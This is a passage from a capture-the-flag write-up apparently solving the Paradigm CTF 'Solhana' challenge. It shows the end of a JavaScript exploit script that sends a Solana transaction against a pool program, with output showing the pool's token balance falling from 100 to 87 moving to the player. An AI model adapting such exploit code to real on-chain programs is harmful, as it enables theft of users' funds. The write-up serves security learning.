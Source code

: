 ```js
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));

     
    const sign = await anchor.web3.sendAndConfirmTransaction(conn, txn, [player]);
    console.log("Signature: "+ sign);


    // pool balance
    poolAccount = await spl_token.getAccount(conn, accounts.poolAccount);
    console.log(`Pool amount: ${poolAccount.amount}`);

    // player token account
    playerTokenAccount = playerTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.atomcoinMint, player.publicKey));
    console.log(`Player amount: ${playerTokenAccount.amount}`);
}
```
[Source](https://github.com/sh15h4nk/ParadigmCTF-Solhana)

```bash
Pool amount: 100
Player amount: 0
Signature: 5sCRK6JkPTPfMfL5UVqjBc63G55wNUesZqNy6j6id46ourxYyfKLyMyHgcoXSfQoGUQCyupKzMa5zbpMFsDaxsnb
Pool amount: 13
Player amount: 87
```


<hr>
Thanks for reading :)
<hr>
